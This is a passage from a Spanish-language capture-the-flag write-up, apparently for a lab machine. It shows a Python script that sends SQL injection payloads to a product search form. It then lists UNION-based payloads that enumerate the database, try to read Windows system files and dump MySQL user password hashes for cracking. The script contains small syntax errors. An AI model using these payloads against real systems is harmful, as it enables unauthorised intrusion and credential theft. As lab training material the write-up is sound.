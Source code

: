 ## Vulnerability Assessment {-}


### SQL Injection Error Based con Python {-}

La idea aqui es crear un script en python que nos injecte el comando deseado y que filtre la respuesta al lado del servidor que 
queremos.

```python
#!/usr/bin/python3

import requests
import re
import signal
import sys
import time

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)

# Variables_globales
sqli_url = "http://10.10.10.167/search_products.php"

def makeRequest(injection):
    post_data = {
        'productName: '%s' % injection
    }

    headers = {
        'X-Forwarded-For': '192.168.4.28'
    }

    r = requests.post(sqli_url, data=post_data, headers=headers)
    response = re.findall(r'\<tbody\>\r\n\t\t\t\t\t\t\t(.*?)\t\t\t\t\t\t\<\/tbody\>', r.text[0])

    print("\n + response + \n")


if __name__ == '__main__':
    while True:
        injection = input("[+] Payload: ")
        if injection != "exit":
            makeRequest(injection)
        else:
            print("\n[!] Saliendo...\n")
            sys.exit(0)

```

si lanzamos el script con `rlwrap python3 sqli_injection.py` y a la entrada payload le ponemos el apostrofe, podemos ver el error. Ya podemos enumerar
la base de datos.

1. Miramos cuantas columnas hay

    ```bash
    [+] Payload : ' order by 100-- -
    [+] Payload : ' order by 10-- -
    [+] Payload : ' order by 8-- -
    [+] Payload : ' order by 7-- -
    [+] Payload : ' order by 6-- -
    ```

    Al `' order by 6-- -` nos sale No product Found, ya sabemos que hay 6 columnas

1. Aplicamos el union select

    ```bash
    [+] Payload : ' union select 1,2,3,4,5,6-- -
    ```

    Vemos que se estan colandos la etiquetas

1. Listamos la base de datos actual en uso y el usuario

    ```bash
    [+] Payload : ' union select 1,2,database(),4,5,6-- -
    [+] Payload : ' union select 1,2,version(),4,5,6-- -
    [+] Payload : ' union select 1,2,user(),4,5,6-- -
    ```

    La base de datos se llama warehouse de typo MariaDB version 10.4.8 y el usuario manager@localhost

1. Miramos si podemos leer archivos de la maquina victima

    ```bash
    [+] Payload : ' union select 1,2,load_file("C:\Windows\System32\drivers\etc\hosts"),4,5,6-- -
    [+] Payload : ' union select 1,2,load_file("Windows\System32\drivers\etc\hosts"),4,5,6-- -
    [+] Payload : ' union select 1,2,load_file("0x433a5c57696e646f77735c53797374656d33325c647269766572731b74635c686f737473"),4,5,6-- -
    ```

    Parece que no podemos leer ficheros del systema.

    > [ ! ] NOTAS: el hexadecimal se hace con el comando `echo "C:\Windows\System32\drivers\etc\hosts" | tr -d '\n' | xxd -ps | xargs | tr -d ' '`

1. Enumeramos las tablas existentes de la base de datos

    ```bash
    [+] Payload : ' union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema="warehouse"-- -
    ```

    Vemos que hay una tabla product, product_category y product_pack. No parece que haya informacion relevante.

1. Enumerar las bases de datos del systema

    ```bash
    [+] Payload : ' union select 1,2,group_concat(schema_name),4,5,6 from information_schema.schemata-- -
    ```

    Hay 3 bases de datos information_schema, mysql y warehouse.

1. Enumeramos la base de datos mysql

    ```bash
    [+] Payload : ' union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema="mysql"-- -
    ```

    Hay muchas tablas y una es la tabla user

1. Enumeramos las columnas de la tabla user

    ```bash
    [+] Payload : ' union select 1,2,group_concat(column_name),4,5,6 from information_schema.columns where table_schema="mysql" and table_name="user"-- -
    ```

    Existe una columna user y una password

1. Accedemos a los usuarios y contraseñas de la base de datos

    ```bash
    [+] Payload : ' union select 1,2,group_concat(User,0x3a,Password),4,5,6 from mysql.user-- -
    ```

Copiamos los usuarios y la contraseñas en un fichero llamado hashes.

### Crackeamos las contraseñas con crackstation {-}

Tratamos las informaciones del fichero hash
 
```bash
cat hashes | tr ',' '\n' | sed 's/\*//g' | sort -u > hashes
cat hashes | awk '{print $2}' FS=":" | xclip -sel clip
```

Abrimos la web de [crackstation](https://crackstation.net/) y collamos los hashes. Encontramos las contraseñas de hector y de manager.

Aqui el problema es que no tenemos puertos que nos permite conectar a la maquina de manera directa. Tenemos que intentar otra cosa para 
poder ganar accesso al systema.
